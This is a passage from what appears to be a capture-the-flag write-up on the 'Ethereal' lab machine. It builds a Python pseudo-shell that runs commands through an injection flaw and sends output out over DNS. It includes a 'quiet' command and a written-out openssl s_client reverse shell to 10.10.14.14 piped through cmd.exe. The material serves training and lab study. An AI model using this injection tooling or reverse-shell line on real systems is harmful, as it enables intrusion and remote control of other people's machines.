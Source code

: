 
I’ll add a check in `parse_packet`, as the `prn` gets called first, to not
print this domain:

    
    
     31             domain = p.getlayer(DNS).qd.qname.decode('utf-8')
     32             if domain == kill_domain: return
    

It works:

    
    
    root@kali# ./ethereal_shell.py
    ethereal> whoami
    etherealalan
    ethereal> exit
    root@kali#
    

I can also add a wrapper around my `cmdloop` to catch ctrl-c:

    
    
     94 try:
     95     term.cmdloop()
     96 except KeyboardInterrupt:
     97     term.do_exit('')
    

### quiet Command

There are a bunch of cases where I need to send a command that I don’t need
output for. And there are cases where the for loop into `nslookup` is causing
issues. For this reason, I’ll create a `quiet` command. This will take a
command and just run it via the injection without the exfil of the response.
To add a command in a Cmd terminal, I just create a function `do_[cmd_name]`:

    
    
        def do_quiet(self, args):
            command = f'& ( {args} )'
            self.send_post(command)
    

To call it, I can now just run:

    
    
    ethereal> quiet start cmd /c "c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 | cmd.exe | c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136"
    

### Adding Messages

I like to have a system that tells me what it’s doing. I’ll add in status
messages throughout the shell. Now, for example, when I start the shell, it
tells me what’s going on when I am waiting for startup:

    
    
    root@kali# ./ethereal_shell.py 
    [*] Starting DNS Sniffer on tun0 for target 10.10.10.106.
    [*] Logging in and fetching state information.
    [+] State information received.
    ethereal>
    